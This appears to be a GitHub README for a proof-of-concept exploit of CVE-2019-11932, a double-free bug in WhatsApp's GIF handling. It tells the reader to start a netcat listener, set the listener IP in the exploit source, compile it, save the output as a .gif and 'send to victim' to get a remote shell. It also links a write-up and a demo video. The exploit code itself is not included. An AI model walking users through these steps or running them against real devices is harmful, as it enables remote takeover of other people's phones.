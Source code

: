 # CVE-2019-11932
 double-free bug in WhatsApp exploit poc.
 
 #Note: make sure to set the listner ip in exploit.c inorder to get shell
 
 nc -lvp 5555 or whatever port.
 
 and then compile.
 
 gcc -o exploit egif_lib.c exploit.c
 
 then run ./exploit and save the content to <filename>.gif
 
 and send to victim.
 
 #Source
 https://awakened1712.github.io/hacking/hacking-whatsapp-gif-rce/.
 
 #Poc_Video
 https://drive.google.com/file/d/1T-v5XG8yQuiPojeMpOAG6UGr2TYpocIj/view.         
 
 

 
 
  
